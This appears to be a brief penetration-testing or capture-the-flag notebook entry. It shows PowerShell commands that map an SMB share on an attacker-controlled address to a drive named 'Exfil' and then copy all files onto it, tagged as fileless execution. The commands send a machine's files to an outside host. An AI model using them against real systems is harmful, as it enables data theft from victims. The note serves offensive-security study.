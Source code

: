 Tips:
```Powershell
PS C:\> New-PSDrive -Name "SHARE_NAME" -PsProvider "Filesystem" -Root "\\YOUR_IP\YOUR_SHARE_NAME"
PS C:\> New-PSDrive -Name "Exfil" -PsProvider "Filesystem" -Root "\\10.10.14.195\share"
PS C:\> copy * Exfil:\
```
Could be used in tandem with [[File Transfer]] 

# #fileless-execution 

